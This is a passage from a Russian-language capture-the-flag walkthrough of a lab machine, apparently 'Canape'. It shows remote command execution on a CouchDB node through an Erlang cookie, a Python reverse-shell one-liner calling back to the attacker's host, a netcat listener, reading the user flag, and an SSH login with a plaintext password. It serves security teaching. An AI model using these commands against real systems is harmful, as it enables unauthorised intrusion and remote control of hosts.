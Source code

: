 Выполним подключение к кластеру (предварительно настроив переменную `HOME`, как того требует документация):
```text
www-data@canape:/$ HOME=/tmp erl -sname 3V1LH4CK3R -setcookie monster
Eshell V7.3  (abort with ^G)
(3V1LH4CK3R@canape)1>
```

Далее воспользуемся модулями `os:cmd` и `rpc:call` для выполнения команд от имени указанного узла БД:
```text
(3V1LH4CK3R@canape)1> os:cmd('whoami').
"www-data\n"

(3V1LH4CK3R@canape)2> nodes().
[]

(3V1LH4CK3R@canape)3> rpc:call('couchdb@localhost', os, cmd, [whoami]).
"homer\n"

(3V1LH4CK3R@canape)4> nodes().
[couchdb@localhost]

(3V1LH4CK3R@canape)5> rpc:call('couchdb@localhost', os, cmd, ["python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.14\",1337));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv(\"HISTFILE\",\"/dev/null\");pty.spawn(\"/bin/bash\");s.close()'"]).
```

И последней командой получим свой реверс-шелл от пользователя homer:

```text
root@kali:~# nc -nlvvp 1337
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 10.10.10.70.
Ncat: Connection from 10.10.10.70:52822.

homer@canape:~$ whoami
whoami
homer

homer@canape:~$ id
id
uid=1000(homer) gid=1000(homer) groups=1000(homer)
```

```text
homer@canape:~$ cat /home/homer/user.txt
cat /home/homer/user.txt
bce91869????????????????????????
```

# SSH — Порт 65535 (внутри машины)
Подключимся к машине по SSH и сразу ринемся в бой — узнаем, что скрывает `sudo`:
```text
root@kali:~# sshpass -p '0B4jyA0xtytZi7esBNGp' ssh -oStrictHostKeyChecking=no homer@10.10.10.70
homer@canape:~$ whoami
homer

homer@canape:~$ sudo -l
[sudo] password for homer:
Matching Defaults entries for homer on canape:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
```